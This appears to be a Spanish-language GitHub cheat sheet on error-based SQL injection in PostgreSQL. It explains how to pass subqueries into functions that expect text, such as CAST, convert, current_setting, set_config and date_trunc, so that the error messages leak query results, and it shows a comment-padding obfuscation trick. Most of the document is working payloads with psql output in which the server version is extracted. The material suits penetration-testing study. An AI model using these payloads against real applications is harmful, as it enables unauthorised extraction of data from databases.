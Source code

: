 



# SQLI ERROR 
- El truco esta en usar funciones de postgresql que en alguno de sus parametros permitan pasar texto , por ejemplo la funcion cast 
<br><br>- otro truco es buscar funciones de PostgreSQL que acepten múltiples parámetros y que uno de esos parámetros sea de tipo  texto específico y no arbitrario tenga que cumplir con alguna condicion  , ahi es donde rompes la condicion colocando otro texto que no es, por ejemplo la funcion : convert 
<br><br> - Otro es buscar funciones que acepte un parametro de tipo texto específico y no arbitrario y tenga que cumplir con alguna condicion , por ejemplo la funcion : current_setting 

 



### OFUSCACION
select/*nadaaaaaaaa es puro texto */version/*0a*/(/*989898*/);


# Ejemplo , explotando SQLI ERROR 

```sql
postgres@postgres# SELECT CAST((SELECT version()) AS INTEGER);
ERROR:  invalid input syntax for type integer: "PostgreSQL 16.4 on x86_64-pc-linux-gnu, compiled by gcc (GCC) 8.5.0 20210514 (Red Hat 8.5.0-22), 64-bit"
Time: 0.335 ms

postgres@postgres# select clm::int from (select version() as clm) as s  ;
ERROR:  invalid input syntax for type integer: "PostgreSQL 16.4 on x86_64-pc-linux-gnu, compiled by gcc (GCC) 8.5.0 20210514 (Red Hat 8.5.0-22), 64-bit"
Time: 0.401 ms

postgres@postgres# SELECT RTRIM(clm)::date FROM (SELECT version() AS clm) AS s;
ERROR:  invalid input syntax for type date: "PostgreSQL 16.4 on x86_64-pc-linux-gnu, compiled by gcc (GCC) 8.5.0 20210514 (Red Hat 8.5.0-22), 64-bit"
Time: 0.550 ms


postgres@postgres# SELECT RTRIM(clm)::boolean FROM (SELECT version() AS clm) AS s;
ERROR:  invalid input syntax for type boolean: "PostgreSQL 16.4 on x86_64-pc-linux-gnu, compiled by gcc (GCC) 8.5.0 20210514 (Red Hat 8.5.0-22), 64-bit"
Time: 0.456 ms



postgres@postgres# SELECT ENCODE('a'::bytea, (select  version())) ;
ERROR:  unrecognized encoding: "PostgreSQL 16.4 on x86_64-pc-linux-gnu, compiled by gcc (GCC) 8.5.0 20210514 (Red Hat 8.5.0-22), 64-bit"
Time: 0.413 ms


postgres@postgres# SELECT decode('a', (select version()));
ERROR:  unrecognized encoding: "PostgreSQL 16.4 on x86_64-pc-linux-gnu, compiled by gcc (GCC) 8.5.0 20210514 (Red Hat 8.5.0-22), 64-bit"
Time: 0.411 ms



postgres@postgres# SELECT convert('hola mundo', 'SQL_ASCII', (select  version()));
ERROR:  invalid destination encoding name "PostgreSQL 16.4 on x86_64-pc-linux-gnu, compiled by gcc (GCC) 8"
Time: 0.374 ms


postgres@postgres# SELECT convert('hola mundo', (select  version()), 'UTF8');
ERROR:  invalid source encoding name "PostgreSQL 16.4 on x86_64-pc-linux-gnu, compiled by gcc (GCC) 8"
Time: 0.379 ms


postgres@postgres# SELECT convert_from('a', (select version()));
ERROR:  invalid source encoding name "PostgreSQL 16.4 on x86_64-pc-linux-gnu, compiled by gcc (GCC) 8"
Time: 0.376 ms


postgres@postgres# SELECT convert_to('a', (select version()));
ERROR:  invalid destination encoding name "PostgreSQL 16.4 on x86_64-pc-linux-gnu, compiled by gcc (GCC) 8"
Time: 0.399 ms




postgres@postgres# SELECT DATE_TRUNC((select version()), TIMESTAMP '2024-09-24 16:34:59') ;
ERROR:  unit "postgresql 16.4 on x86_64-pc-linux-gnu, compiled by gcc (gcc) 8" not recognized for type timestamp without time zone
Time: 0.349 ms


postgres@postgres# SELECT DATE_PART((select version()), TIMESTAMP '2017-09-30');
ERROR:  unit "postgresql 16.4 on x86_64-pc-linux-gnu, compiled by gcc (gcc) 8" not recognized for type timestamp without time zone
Time: 0.479 ms



postgres@postgres# SELECT TO_DATE((SELECT '->'||setting||'<-' FROM PG_SETTINGS WHERE NAmE = 'server_version'), 'Month DD, YYYY');
ERROR:  invalid value "->16.4<-" for "Month"
DETAIL:  The given value did not match any of the allowed values for this field.
Time: 1.660 ms

 
 



postgres@postgres# SELECT TO_TIMESTAMP(clm, 'YYY-MM-DD') FROM (select version() as clm) AS s;
ERROR:  invalid value "Pos" for "YYY"
DETAIL:  Value must be an integer.
Time: 0.395 ms

 

postgres@postgres# SELECT set_config((select version()), '', false);
ERROR:  invalid configuration parameter name "PostgreSQL 16.4 on x86_64-pc-linux-gnu, compiled by gcc (GCC) 8.5.0 20210514 (Red Hat 8.5.0-22), 64-bit"
DETAIL:  Custom parameter names must be two or more simple identifiers separated by dots.
Time: 0.370 ms



postgres@postgres# select current_setting((select version()));
ERROR:  unrecognized configuration parameter "PostgreSQL 16.4 on x86_64-pc-linux-gnu, compiled by gcc (GCC) 8.5.0 20210514 (Red Hat 8.5.0-22), 64-bit"
Time: 0.408 ms


postgres@postgres#  SELECT regexp_replace('Hola 123 mu,ndo', '[a-zA-Z0-9\s]', '', (select version()));
ERROR:  invalid regular expression option: "P"
Time: 0.365 ms




postgres@postgres# SELECT pg_stat_reset_shared((select version()));
ERROR:  unrecognized reset target: "PostgreSQL 16.4 on x86_64-pc-linux-gnu, compiled by gcc (GCC) 8.5.0 20210514 (Red Hat 8.5.0-22), 64-bit"
HINT:  Target must be "archiver", "bgwriter", "io", "recovery_prefetch", or "wal".
Time: 0.401 ms

```


 
 
# Bibliografia 

-- Proyecto donde muestran varios SQLI 
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection





 
  
